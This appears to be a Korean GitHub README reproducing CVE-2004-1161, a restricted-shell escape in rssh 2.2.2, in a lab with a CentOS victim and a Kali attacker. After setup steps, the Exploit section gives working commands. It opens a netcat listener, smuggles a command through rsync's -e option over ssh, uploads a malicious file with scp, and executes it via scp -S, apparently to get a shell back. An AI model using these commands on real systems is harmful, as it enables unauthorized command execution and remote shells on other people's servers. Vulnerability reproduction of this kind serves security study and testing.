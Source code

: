 # [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

**4. [etc](#etc)**


***


# **Environment**

| Type     | OS             | IP              | App            |
| :---     | :---           | :---            | :---           |
| Victim   | CentOS 7       | 192.168.108.174 | [rssh-2.2.2-1.FC2.i386](https://github.com/2jinu/CVE/raw/main/RCE/%5BLinux%5D%20CVE-2004-1161/file/rssh-2.2.2-1.FC2.i386.rpm) |
| Attacker | Kali 2019      | 192.168.108.132 |                |

# **Setting**

필요 라이브러리 설치

```sh
root@srv:~# yum -y install ld-linux.so.2
root@srv:~# rpm -e --nodeps -ivh rssh-2.2.2-1.FC2.i386.rpm
root@srv:~# adduser -d /home/"username" "username"
root@srv:~# passwd "username"
root@srv:~# echo /usr/bin/rssh >> /etc/shells
root@srv:~# usermod -s /usr/bin/rssh "username"
```

rssh 설정파일 수정

```
/etc/rssh.conf에서 allowscp와 allowsftp 주석 해제
```


# **Exploit**

```sh
root@kali:~# apt-get install sshpass
root@kali:~# nc -nvlp 포트번호
root@kali:~# sshpass -p'비밀번호' ssh -oStrictHostKeyChecking=no 사용자 계정@피해 서버 'rsync -e "touch /tmp/exploit --" localhost:/dev/null /tmp'
root@kali:~# sshpass -p'비밀번호' scp -oStrictHostKeyChecking=no 악성코드 명 사용자 계정@피해 서버:/tmp/악성코드 명
root@kali:~# sshpass -p'비밀번호' ssh -oStrictHostKeyChecking=no 사용자 계정@피해 서버 'scp -S /tmp/악성코드 명 localhost:/dev/null /tmp'
```

![](images/2022-05-18-21-34-05.png)



# **etc**

rssh : scp, sftp, cvs, rdist, rsync만 사용할 수 있는 쉘